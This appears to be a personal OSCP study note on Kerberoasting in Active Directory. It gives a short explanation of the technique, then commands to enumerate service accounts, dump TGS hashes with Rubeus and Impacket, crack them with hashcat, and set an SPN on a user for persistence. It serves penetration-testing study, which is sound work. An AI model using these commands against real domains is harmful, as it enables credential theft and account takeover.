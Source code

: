 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/n. Active Directory Attacks/4. Kerberoasting/"}
---
```


-------
- a.k.a TGS-REP roasting
- Client requests a service ticket generated by the DC.
- No checks are done until the ticket is used to authenticate, since it is hashed.
- If the SPN runs in the context of a computer account, managed service account, or group-managed service account, the password will be randomly generated 120 chars.
- Same is true for "krbtgt" user.
- Hence, user accounts are often the way to crack.
-------------------
### Enumerate Kerberoastable users:
- Setspn:
```
setspn.exe -Q */*
```
- PowerView:
```
Get-NetUser -SPN | select serviceprincipalname
```
- Rubeus:
```
\Rubeus.exe kerberoast /stats
```
-------------
### Local Kerberoasting with Rubeus:
1. Start the roast:
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
2. Crack hash on kali:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
------------
### Remote Kerberoasting with Impacket:
1. Start the roast:
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
2. Crack hash:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Note: If Impacket throughs error "KRB_AP_ERR_SKEW(Clock skew too great)", the time of Kali needs to be synchronized with the DC. Do that using "ntpdate" or "rdate".
-------------------
### Targeted Kerberoasting Abuse/Persistence:
Make user kerberoastable where we have write privileges:
```
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
